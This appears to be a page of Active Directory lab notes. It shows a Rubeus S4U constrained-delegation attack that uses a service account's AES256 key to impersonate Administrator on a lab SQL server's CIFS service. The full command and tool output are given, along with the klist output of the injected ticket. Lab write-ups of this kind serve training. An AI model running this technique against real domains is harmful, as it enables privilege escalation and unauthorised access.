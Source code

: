 ![dcorp-std422 | student422](https://custom-icon-badges.demolab.com/badge/dcorp--std422-student422-64b5f6?logo=windows11&logoColor=white)

`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args s4u /user:websvc /aes256:2d84a12f614ccbf3d716b8339cbbe1a650e5fb352edc8e879470ade07e5412d7 /impersonateuser:Administrator /msdsspn:"CIFS/dcorp-mssql.dollarcorp.moneycorp.LOCAL" /ptt`:
```
[SNIP]

[*] Action: S4U📌

[*] Using aes256_cts_hmac_sha1 hash: 2d84a12f614ccbf3d716b8339cbbe1a650e5fb352edc8e879470ade07e5412d7
[*] Building AS-REQ (w/ preauth) for: 'dollarcorp.moneycorp.local\websvc'
[*] Using domain controller: 172.16.2.1:88
[+] TGT request successful!📌
[*] base64(ticket.kirbi):

[SNIP]

[*] Action: S4U📌

[*] Building S4U2self request for: 'websvc@DOLLARCORP.MONEYCORP.LOCAL'
[*] Using domain controller: dcorp-dc.dollarcorp.moneycorp.local (172.16.2.1)
[*] Sending S4U2self request to 172.16.2.1:88
[+] S4U2self success!
[*] Got a TGS for 'Administrator'🎭 to 'websvc👤@DOLLARCORP.MONEYCORP.LOCAL'🏛️
[*] base64(ticket.kirbi):

[SNIP]

[*] Impersonating user 'Administrator'🎭 to target SPN 'CIFS📌/dcorp-mssql🖥️.dollarcorp.moneycorp.LOCAL'
[*] Building S4U2proxy request for service: 'CIFS/dcorp-mssql.dollarcorp.moneycorp.LOCAL'
[*] Using domain controller: dcorp-dc.dollarcorp.moneycorp.local (172.16.2.1)
[*] Sending S4U2proxy request to domain controller 172.16.2.1:88
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'CIFS/dcorp-mssql.dollarcorp.moneycorp.LOCAL':

[SNIP]

[+] Ticket successfully imported!🎟️
```

`klist`:
```
Current LogonId is 0:0x38bfd7

Cached Tickets: (1)

#0>     Client: Administrator🎭 @ DOLLARCORP.MONEYCORP.LOCAL🏛️
        Server: CIFS📌/dcorp-mssql🖥️.dollarcorp.moneycorp.LOCAL @ DOLLARCORP.MONEYCORP.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a10000 -> forwardable renewable pre_authent name_canonicalize
        Start Time: 2/17/2025 3:13:29 (local)
        End Time:   2/17/2025 13:13:29 (local)
        Renew Time: 2/24/2025 3:13:29 (local)
        Session Key Type: AES-128-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:
```
